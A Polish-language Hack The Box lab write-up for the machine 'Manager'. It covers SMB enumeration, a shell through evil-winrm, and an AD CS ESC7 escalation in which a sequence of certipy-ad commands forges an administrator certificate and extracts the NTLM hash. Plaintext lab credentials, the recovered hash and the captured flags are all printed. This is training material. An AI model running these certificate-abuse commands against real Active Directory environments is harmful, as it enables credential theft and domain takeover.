





# Hack The Box -- Manager Writeup


## Spis treści
1. [Wstęp](#wstęp)
2. [Wykorzystane narzędzia](#wykorzystane-narzędzia)
3. [Metodologia](#metodologia)
4. [Zdobyte flagi CTF](#zdobyte-flagi-ctf)

## Wstęp
Poniższy writeup zawiera informacje o metodologii, wykorzystanych narzędziach i zdobytych flagach CTF. Przeprowadzone testy penetracyjne dotyczyły maszyny Hack The Box [Manager](https://app.hackthebox.com/machines/Manager), o poziomie trudności *"Medium"*.

## Wykorzystane narzędzia
| Narzędzie				| Wersja	 |
| --					| --		 |
| nmap					| 7.94		 |
| Nessus Essentials		| 10.4.2	 |
| Metasploit Framework	| 6.3.46-dev |
| Impacket				| v0.11.0	 |
| winexe				| 1.1		 |
| evil-winrm			| v3.5		 |
| certify.exe			| v1.0.0	 |
| Certipy				| v4.7.0	 |

## Metodologia
> TODO do screena htb-30.PNG

### Weryfikacja dostępu SMB
Wykorzystano moduł Metasploit Framework `auxillary/smb/smb_login`, aby zweryfikować możliwość logowania do zasobów sieciowych SMB dla użytkownika *Raven*.


Uruchomienie modułu pozwoliło na weryfikację dostępu dla tego użytkownika.


Uzyskanie dostępu SMB do maszyny przeprowadzono z wykorzystaniem programu impacket-smblclient dla użytkowników *operator* i *Raven*. Po wyświetleniu zawartości otrzymano informację o braku wybranego udziału sieciowego.




Przeprowadzono weryfikację aktywnych udziałów przydzielonych dla użytkowników.


Zasoby `ADMIN$`, `C$` nie są dostępne dla zwykłych użytkowników. Dostępne są:

- `IPC$` - domyślny udział Korzystając z tej sesji, system Windows umożliwia anonimowym użytkownikom wykonywanie pewnych działań, takich jak wyliczanie nazw kont domeny i udziałów sieciowych.


- `NETLOGON` - to współdzielony folder, który zawiera pliki skrypty logowania Group Policy oraz inne pliki wykonywalne.
- `SYSVOL` - zawiera kopię publicznych plików domeny serwera, takich jak obiekty Group Policy i skrypty dla bieżącej domeny i całego przedsiębiorstwa. Zawartość tego udziału jest replikowana do wszystkich kontrolerów domeny w domenie Windows Server.


Weryfikując poszczególne udziały sieciowe nie znaleziono informacji lub plików pozwalających na dalszą eksploitację protokołu.


### Zdalny dostęp dla użytkownika
Przeprowadzono szereg prób uzyskania zdalnego dostępu. Próba wykorzystania programu winexe zakończyła się niepowodzeniem. Program jest dedykowany dla systemów NT/2000/XP/2003, w których nie zawiera się wersja atakowanego systemu.


Nie uzyskano dostępu z wykorzystaniem oprogramowania psexec (pochodzącego z pakietu Sysinternals), co wskazuje jego brak na urządzeniu końcowym. Dodatkowo dostępne udziały sieciowe nie mają zdefiniowanych uprawnień do zapisu, dlatego operowanie na nich okazało się nieskuteczne.


Nie uzyskano dostępu z wykorzystaniem wmiexec, będącego elementem Windows Management Instrumentation umożliwiającym zdalne wykonanie kodu w ramach tego narzędzia.


Ostatecznie uzyskano zdalny dostęp z wykorzystaniem narzędzia evil-winrm, które tworzy powłoki wykorzystujące Windows Remote Management.


Flaga użytkownika została znaleziona na pulpicie użytkownika *Raven*.


### Eskalacja uprawnień
Metodologią prób i błędów rozważono możliwości eskalacji dostępu do konta z uprawnieniami administratora. Pierwotnie rozważone zostało dostarczenie oprogramowania mimikatz, pozwalającego na kradzież poświadczeń domenowych. Dostarczenie tego oprogramowania wymagało następujących kroków:

- Uzyskanie dostępu do folderu z zawartością tymczasową
	- *Alternatywnie* -- usunięcie śladów po wykonaniu programu
- Dodanie wyjątku do zapory sieciowej Windows Defender dla lokalizacji dostarczonego programu mimikatz.

Oba te kroki nie mogły zostać zrealizowane, ze względu na niewystarczające uprawnienia dostępu dla użytkownika.


Na etapie weryfikacji zawartości folderów użytkownika znaleziono niestandardowe oprogramowanie, najprawdopodobniej dostarczone przez innych uczestników HTB.



- `winpeas.exe` -- pozwala na wykonanie szeregu skryptów, wskazujących możliwe ścieżki do eskalacji uprawnień
- `certify.exe` -- pozwala na enumerację błędnej konfiguracji Active Directory Certificate Services

Wykorzystano drugie narzędzie, obierając taktykę eskalacji uprawnień z wykorzystaniem domeny AD CS.
```
certify.exe find /vulnerable
```
Użycie powyższej komendy zapewnia weryfikację systemu pod kątem podatnych szablonów certyfikatów AD CS.


Użytkownik *Raven* posiada prawa do zarządzania Certificate Authority, co pozwala na eskalację domenową [ESC7](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation#attack-2). Jej przebieg jest następujący:

1. Weryfikacja, czy użytkownik posiada uprawnienia *ManageCA*.
2. Nadanie użytkownikowi prawa do zarządzania certyfikatami, przez ustanowienie roli użytkownika certyfikującego.
```
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3ve10P3r!123'
```
3. Uruchomienie szablonu `SubCA` dla tej domeny.
```
certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username 'raven@manager.htb' -password 'R4v3nBe5tD3ve10P3r!123'
```
4. Wysłanie zapytania o certyfikat, w oparciu o szablon `SubCA` (zostanie odrzucone).
```
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3ve10P3r!123' -ca 'manager-DC01-CA' -target manager.htb -template SubCA -upn 'administrator@manager.htb'
```
5. Wystawienie odrzuconego certyfikatu, z wykorzystaniem uprawnień `ManageCA` i `Manage Certificates`.
```
certipy-ad ca -ca 'manager-DC01-CA' -issue-request <REQUEST-ID> -username raven@manager.htb -password 'R4v3nBe5tD3ve10P3r!123'
```
6. Pobranie wystawionego certyfikatu.
```
certipy-ad req -username 'raven@manager.htb' -password 'R4v3nBe5tD3ve10P3r!123' -ca 'manager-DC01-CA' -target manager.htb -retrieve <REQUEST-ID>
```
7. Uzyskanie wartości NTLM hash dla konta administratora.
```
certipy-ad auth -pfx administrator.pfx -username administrator -domain manager.htb -dc-ip 10.10.11.236
```
8. Logowanie na konto administratora z wykorzystaniem NTLM hash.

Pierwotnie proces ten nie mógł zostać zrealizowany, ze względu na brak rozwiązania nazwy domenowej maszyny HTB, występujący na etapie rekonesansu dostępnych usług. 


Rozwiązaniem było dodanie domeny do pliku `/etc/hosts`:
```
echo "10.10.11.236 manager.htb www.manager.htb" >> /etc/hosts
```

Co ostatecznie pozwoliło przeprowadzić wyżej wymienione kroki (1-6), z wykorzystaniem certipy-ad:



Krok 7 może stanowić problem, gdyż zbyt różnica między zegarami obu systemów nie pozwala na przesłanie wartości NTLM hash, ze względu na ograniczenia czasowe systemu uwierzytelniania Kerberos. Wymagana jest wtedy synchronizacja zegaru systemowego do zegaru atakowanej maszyny wykorzystując np. protokół NTP.
```
ntpdate -u 10.10.236
```



Co pozwala przejść do właściwej eskalacji uprawnień, wykorzystując uwierzytelenienie Kerberos z pozyskanym hashem, o wartości:
`aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`
Wartościo hash są reprezentowane odpowiednio:
`LM hash : NT hash`

Do zalogowania, wykorzystana została wartość NT hash.


Przeprowadzono proces szukania flagi, analogiczny jak dla użytkownika *Raven*, uzyskując tym samym flagę konta administratora.

`

## Zdobyte flagi CTF
| Typ				| Lokalizacja								| Wartość							|
| --				| --										| --								|
| Użytkownika		| C:\Users\Raven\Desktop\user.txt			| f3280ad8d8f2982a88c28ac862e7ece7	|
| Administratora	| C:\Users\Administrator\Desktop\root.txt	| 92ed6f62735664d0d7c49ffc4e793606	|
